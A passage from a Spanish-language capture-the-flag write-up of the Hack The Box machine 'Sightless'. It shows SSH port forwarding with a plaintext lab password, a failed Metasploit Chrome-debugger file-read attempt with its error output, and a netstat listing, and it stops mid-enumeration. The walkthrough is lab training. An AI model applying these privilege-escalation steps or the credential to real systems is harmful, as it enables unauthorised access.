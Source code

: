 Me topé [este artículo en Medium](https://blog.pentesteracademy.com/chrome-debugger-arbitrary-file-read-1ff2c41320d1) donde se habla de leer archivos de forma interna utilizando el Chrome Debugger que hemos detectado anteriormente.

Vemos que se está ejecutando en el puerto 56893 por la línea del `linpeas` que hemos encontrado, `--port=56893`

Hacemos el port-forwarding.
```console
$ sshpass -p 'insaneclownposse' ssh -L 56893:127.0.0.1:56893 michael@sightless.htb
Last login: Mon Sep  9 18:16:26 2024 from 10.10.14.143
michael@sightless:~$
```

Y siguiendo el artículo, vamos a utilizar el módulo `use auxiliary/gather/chrome_debugger` de `metasploit`

Al intentar ejecutarlo no conseguí nada.
```console
[msf](Jobs:0 Agents:0) auxiliary(gather/chrome_debugger) >> exploit
[*] Running module against 127.0.0.1

[-] Auxiliary failed: NoMethodError undefined method `pop' for {"value"=>{"error"=>"unknown command", "message"=>"unknown command: unknown command: json", "stacktrace"=>"#0 0x55cfd03d0e43 <unknown>\n#1 0x55cfd00bf4e7 <unknown>\n#2 0x55cfd01266b2 <unknown>\n#3 0x55cfd012618f <unknown>\n#4 0x55cfd008ba18 <unknown>\n#5 0x55cfd039516b <unknown>\n#6 0x55cfd03990bb <unknown>\n#7 0x55cfd0381281 <unknown>\n#8 0x55cfd0399c22 <unknown>\n#9 0x55cfd036613f <unknown>\n#10 0x55cfd008a027 <unknown>\n#11 0x7f756d2c4d90 <unknown>\n"}}:Hash
[-] Call stack:
[-]   /usr/share/metasploit-framework/modules/auxiliary/gather/chrome_debugger.rb:58:in `run'
[*] Auxiliary module execution completed
```

Investigando mas encontré [este post](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/) sobre pentesting chrome-debugger.

Primero vamos a hacer port-forwarding a todos los puertos extraños porque no estoy seguro de que puerto es el del servicio del `chrome-debugger`

> [!NOTE]
> Hay que tener en cuenta que hay una tarea que cada X tiempo cambia los puertos por lo que seguramente los puertos correspondientes al `chrome-debugger` vayan cambiando y no sean iguales en vuestra máquina que en este write-up

```console
michael@sightless:~$ netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:38313         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:53031         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
```